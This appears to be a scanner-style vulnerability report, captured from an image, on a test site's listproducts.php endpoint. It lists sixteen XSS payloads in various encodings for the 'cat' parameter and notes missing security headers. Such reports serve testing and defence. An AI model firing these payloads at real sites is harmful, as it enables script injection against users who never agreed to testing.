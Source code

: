 
**Vulnerability Report**
=====================

**Endpoint:** `http://testphp.vulnweb.com/listproducts.php?cat=123`

**Scan Duration:** `2024-06-26 11:21:39 +0300` to `2024-06-26 11:23:13 +0300`

** Issues:**
-------------

### High Severity (19 issues)

#### XSS

* **Endpoint:** `http://testphp.vulnweb.com/listproducts.php?cat=123`
* **Parameter:** `cat`
* **Payloads:**
        + `<script>alert(45)</script>`
        + `<meter onmouseover=alert(45)>0</meter>`
        + `<marquee onstart=alert(45)>`
        + `"><iframe/src=JavaScriPt:alert(45)>`
        + `<details/open/ontoggle="alert`45`">`
        + `<audio src onloadstart=alert(45)>`
        + `<video/poster/onerror=alert(45)>`
        + `<textarea autofocus onfocus=alert(45)>`
        + `<a href="javascript&#0000058alert(45)">XSS</a>`
        + `<select autofocus onfocus=alert(45)>`
        + `<a href="javascript&#x003a;alert(45)">XSS</a>`
        + `<a href="javascript&#0058;alert(45)">XSS</a>`
        + `<keygen autofocus onfocus=alert(45)>`
        + `<a href "&#14; javascript:alert(45)">XSS</a>`
        + `<a href="javascript&colon;alert(45)">XSS</a>`
        + `<input autofocus onfocus=alert(45)>`

### Medium Severity (1 issue)

#### STATIC ANALYSIS

* **Endpoint:** `http://testphp.vulnweb.com/listproducts.php?cat=123`
* **Description:** Not Set CSP

### Low Severity (1 issue)

#### STATIC ANALYSIS

* **Endpoint:** `http://testphp.vulnweb.com/listproducts.php?cat=123`
* **Description:** Not Set X-Frame-Options

### Info Severity (6 issues)

#### STATIC ANALYSIS
* **Endpoint:** `http://testphp.vulnweb.com/listproducts.php?cat=123`
* **Descriptions:**
        + Found Server: nginx/1.19.0
        + Not set HSTS
        + Content-Type: text/html; charset=UTF-8
* **Endpoint:** `http://testphp.vulnweb.com/listproducts.php?cat=123`
* **Parameter:** `cat`
* **Payloads:**
        + `rEfe6`
        + `XsPeaR"`
        + `onhwul=64`

Let me know if this is what you were expecting!